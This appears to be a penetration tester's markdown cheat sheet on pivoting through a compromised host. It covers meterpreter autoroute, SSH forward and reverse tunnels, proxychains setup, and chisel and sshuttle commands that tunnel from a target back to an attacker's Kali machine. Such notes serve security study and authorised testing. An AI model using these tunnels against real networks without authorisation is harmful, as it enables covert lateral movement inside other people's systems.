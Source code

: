 # SSH Tunnel

NOTE: needs valid SSH creds on box to pivot from.

## meterpreter tunnel

```bash
# to print existing routes 
autoroute -p

run autoroute [-s IP/CIDR]
[OR]
use post/multi/manage/autoroute
# use auxiliary/server/socks_proxy for global 
```

## ssh tunnel:

### Forward tunnel (outgoing)

```bash
ssh user@IP -D PORT
# this sets up a tunnel between localhost:TUNNEL-PORT and target
# any requests to localhost:TUNNEL-PORT is routed via target
```

### Reverse tunnel (incoming)

#### authorized_keys file

```bash
from="IP",command="echo 'This account can only be used for Port Forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty <SSH-PUBLIC-key>
```

#### Command

```bash
# for allowing a connecting to your port from outside (incoming)
ssh -fN -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -R PORT -i <id_rsa> KALI-USER@KALI-IP

# -N: not running commands
# -f: go to background
# UserKnownHostsFile=/dev/null & StrictHostKeyChecking=no will not ask kali password; not safe to enter password on target.
```

## Proxychains

### /etc/proxychains4.conf

```bash
# add line for socks4/5 proxy 
[socks4|socks5] 127.0.0.1 6900

# comment out proxy_dns to avoid nmap hanging
```

Now, run any command using `$ proxychains4 [command]`

### proxychains4 for browser

Set up a foxyproxy configuration for browser:

1. Title: proxychains
2. Proxy Type: SOCKS4
3. Proxy IP: localhost
4. Port: 6900

## chisel tunnel

### Reverse socks proxy

NOTE: configure proxychains using `socks5 IP PORT`.

```bash
# server on kali
chisel server -p 8000 --reverse

# on target
# tunnel using chisel on kali:1080
chisel client KALI_IP:8000 R:socks
```

### Forward socks proxy

```bash
# server on target
chisel server -p 8000 --socks5

# on kali
chisel client TARGET_IP:8000 TUNNEL_PORT:socks
```

## sshuttle tunnel

* **REQUIREMENTS:**
    * Works only on linux targets
    * SSH access to target
    * Python on target (static binary works)

```bash
sshuttle -r USER@TARGET_IP [SUBNET/CIDR | -N] [--ssh-cmd "ssh -i KEY"] -x TARGET_IP
# -N: auto identify based on targers routing table
# -x: used to exclude current box from forward all subnet traffic
```